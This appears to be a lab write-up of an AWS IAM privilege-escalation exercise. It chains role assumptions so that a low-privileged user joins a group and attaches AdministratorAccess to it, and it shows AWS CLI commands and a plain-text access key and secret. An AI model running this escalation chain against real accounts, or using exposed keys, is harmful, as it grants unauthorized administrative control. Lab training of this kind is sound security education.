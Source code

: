 ### Dangerous Policy Combination I

A pre requisite is to configure the profile generated by PT Academy

First, list attached policies for user `student` `aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222631607-91c607e2-d4f8-44d0-b2a0-69bc1ae83bf7.png)

If a user is tried to be created, a denied message will be received ` aws iam create-user --user-name jllerena --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222631842-3b8ccab1-7e4b-4419-b1d9-d56a74e7a51b.png)

What can be done is to get information about the user’s inline policies and enumerate the attached policies.
```
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam get-user-policy --user-name student --policy-name terraform-20230303041857712300000002 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222632349-d106b9f1-db58-4a55-8206-2d3f93e537c8.png)

Check policies attached to Adder role and check the role-policy document for the policy `AddUser`.

```
aws iam list-role-policies --role-name Adder --profile PTAcademyJllerena
aws iam get-role-policy --role-name Adder --policy-name AddUser --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222633923-83a1ecab-e304-4a5c-8b57-d620720a7aba.png)

Assume Adder role with student user. `aws sts assume-role --role-arn arn:aws:iam::566111886431:role/Adder --role-session-name adder_jllerena --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222636097-2ba838b6-375c-4e0b-8001-b6978538e0c8.png)

With this assume role lets store the credentials which can be in the env variables or in my case in the `~/.aws/credentials` path 

Lets add `student` user to `Printers` group `aws iam add-user-to-group --group-name Printers --user-name student --profile PTAJllerenaAssumedRole`

![image](https://user-images.githubusercontent.com/46797181/222640066-b390c175-2242-4f7a-8b60-3a47b89681d6.png)

Something important to notice is that this credentials storing in the `credentials` file gave an error, so the workaround was to store the values in env variables 
![image](https://user-images.githubusercontent.com/46797181/222640388-2eadecc4-e05b-4d8a-a339-21fcd857a5cc.png)

```
export AWS_ACCESS_KEY_ID=ASIA4FSZIQWHZGGDJ36G
export AWS_SECRET_ACCESS_KEY=NHaUFlUqtXoaJrCs9/HurXAN0MEuNEfKsm3Lzlov
export AWS_SESSION_TOKEN=IQoJ<rest of token>
aws iam add-user-to-group --group-name Printers --user-name student
```
Once added the user to the group the env variables can be unset 

```
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```
Listing the groups for user `student` will show that is added to `Printers` group `aws iam list-groups-for-user --user-name student --profile PTAcademyJllerena` 
![image](https://user-images.githubusercontent.com/46797181/222640832-5e52f352-4eb0-4a18-b8e4-d65acf906f88.png)

Repeat the above steps for `Attacher` role 

```
aws iam list-role-policies --role-name Attacher --profile PTAcademyJllerena
aws iam get-role-policy --role-name Attacher --policy-name AttachPolicy --profile PTAcademyJllerena
``` 
![image](https://user-images.githubusercontent.com/46797181/222641612-fcc9b90b-b42b-4d32-a4b8-650613e19933.png)

Above image shows that any policy can be added to the printers group. Lets find `Administrator` policy `aws iam list-policies --profile PTAcademyJllerena | grep 'AdministratorAccess' `

![image](https://user-images.githubusercontent.com/46797181/222642002-6ec8143a-8ff4-4203-b02d-95df7b46cb8d.png)

Next, assume `attacher` role `aws sts assume-role --role-arn arn:aws:iam::836632104335:role/Attacher --role-session-name attacher_jllerena --profile PTAcademyJllerena`  

![image](https://user-images.githubusercontent.com/46797181/222642732-2b513497-7d7c-487d-bc70-b5fe0e127c30.png)

Set the env variables for the assumed role credentials 

```
export AWS_ACCESS_KEY_ID=ASIA4FSZIQWHZGGDJ36G
export AWS_SECRET_ACCESS_KEY=NHaUFlUqtXoaJrCs9/HurXAN0MEuNEfKsm3Lzlov
export AWS_SESSION_TOKEN=IQoJ<rest of token>

```
Next, attach the `AdministratorAccess` policy to the `Printers` group and verify with below commands

Additionally `unset` the env variables  

```
aws iam attach-group-policy --group-name Printers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam list-attached-group-policies --group-name Printers --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222643461-719f7cf8-93db-4f68-8c46-0cfdb5bc7372.png)

Create a user with `aws iam create-user --user-name jllerena --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222643872-ff89d6d0-3cf0-4b73-b3ce-c9da5f8604cf.png)

In conclusion, `student` user is in `Printers` group which has `Administrator` permissions, this shows that privilege escalation has been achieved.
